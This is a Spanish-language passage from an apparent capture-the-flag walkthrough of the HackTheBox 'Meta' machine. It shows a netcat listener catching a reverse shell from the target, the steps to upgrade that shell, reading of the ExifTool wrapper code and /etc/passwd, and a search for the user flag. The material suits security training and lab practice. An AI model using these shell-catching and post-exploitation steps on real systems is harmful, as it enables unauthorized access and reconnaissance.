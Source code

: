 Ya sólo nos queda ponernos en escucha por el puerto **`9999`** (o el que tú quieras) y subir la imagen al **`MetaView`**

```console
p3ntest1ng:~$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.15.113] from (UNKNOWN) [10.10.11.140] 59310
bash: cannot set terminal process group (640): Inappropriate ioctl for device
bash: no job control in this shell
```

Hacemos tratamiento a la shell para que sea más o menos interactiva:

```console
bash-5.0$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
bash-5.0$ ^Z
zsh: suspended  nc -nlvp 9999
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 9999
                               reset xterm                      
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ export TERM=xterm
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ export SHELL=bash
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ stty rows 43 columns 189
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ whoami && id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Tras analizar algunos directorios, vemos que efectivamente se estaba haciendo uso de **`ExifTool`**:

```console
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ cat /lib/ExifToolWrapper.php
```

```php
<?php
    function exiftool_exec($newFilepath) {
        return shell_exec("exiftool " . escapeshellarg($newFilepath) . " --system:all --exiftool:all -e");
    }
?>
```

Listemos los usuarios que existen en el sistema:

```console
www-data@meta:/var/www$ grep -vE "nologin|false|sync|git" /etc/passwd | tr ":" " " | column -t
root    x  0     0      root       /root         /bin/bash
thomas  x  1000  1000   thomas,,,  /home/thomas  /bin/bash
```

Suponemos que el usuario **`thomas`** será quien finalmente tenga el archivo que nos interesa, vamos a verificarlo.

```console
www-data@meta:/var/www$ find / -type f -name user.txt 2>/dev/null
/home/thomas/user.txt
```
